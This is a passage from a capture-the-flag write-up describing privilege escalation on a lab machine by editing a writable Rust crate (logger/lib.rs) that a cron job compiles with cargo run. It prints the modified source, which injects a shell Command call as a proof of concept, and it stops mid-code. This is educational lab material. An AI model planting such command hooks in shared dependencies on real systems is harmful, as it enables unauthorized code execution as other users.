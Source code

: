 ### Cargo Hijack

#### Strategy

Given that the binary is compiled each time the cron is executed (because of `cargo run`), if I can modify any of the code, I can get execution as atlas. I noted above that the `main.rs` file was not writable. But the source for the `logger` library that’s imported is:

```

silentobserver@sandworm:/opt/crates/logger/src$ ls -l
total 4
-rw-rw-r-- 1 atlas silentobserver 732 May  4  2023 lib.rs

```

I’ll modify that to get execution as atlas (presumably outside of the jail, as `cargo` wasn’t a binary inside the jail).

#### Note About Cleanup

The cleanup on this box is done in a rather annoying way, where it seems to delete the entire `tipnet` directory and rebuild it. That means if I have a shell in that directory when it happens, it gets lost. I found the best way to modify this is to have the shell in `/opt`, and then `vim crates/logger/src/lib.rs`. Then I can write my changes and get another SSH session to look for results. By leaving `vim` open, even when the cleanup deletes the directory and recreates it, my changes are still in my copy. When I just save again, it will warn me:

![image-20231115072844509](/img/image-20231115072844509.png)

Entering `y` will save over the cleaned copy.

#### Modify lib.rs POC

There’s a Rust struct (think object) named `Command` [[docs](https://doc.rust-lang.org/std/process/struct.Command.html)]. I’ll need to add `use std::process::Command` at the top, and then I’ll put my `Command` invocation at the bottom:

```

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
    
    Command::new("sh")
            .arg("-c")
            .arg("touch /dev/shm/0xdf")
```